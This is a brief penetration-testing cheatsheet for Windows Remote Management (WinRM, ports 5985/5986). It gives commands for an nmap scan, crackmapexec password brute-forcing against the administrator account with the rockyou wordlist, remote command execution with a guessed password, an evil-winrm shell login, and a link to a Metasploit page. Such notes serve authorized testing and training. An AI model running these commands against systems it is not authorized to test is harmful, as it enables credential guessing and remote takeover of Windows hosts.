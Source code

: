 ```yaml
---
description: Cheatsheet for WinRM
---
```


# 5985/5986 - Pentesting WinRM

### Nmap

```bash
nmap --top-ports 7000 10.0.0.173
```

### crackmapexec

```bash
#example usage
crackmapexec
crackmapexec winrm $ip -u administrator -p /usr/share/wordlists/rockyou.txt
crackmapexec winrm $ip -u administrator -p tinkerbell -x "whoami" 
crackmapexec winrm $ip -u administrator -p tinkerbell -x "systeminfo" 
```

### evil-winrm.rb

```bash
evil-winrm.rb -u administrator -p 'tinkerbell' -i $ip
```

### Metasploit

{% content-ref url="winrm-exploitation-with-metasploit.md" %}
[winrm-exploitation-with-metasploit.md](winrm-exploitation-with-metasploit.md)
{% endcontent-ref %}

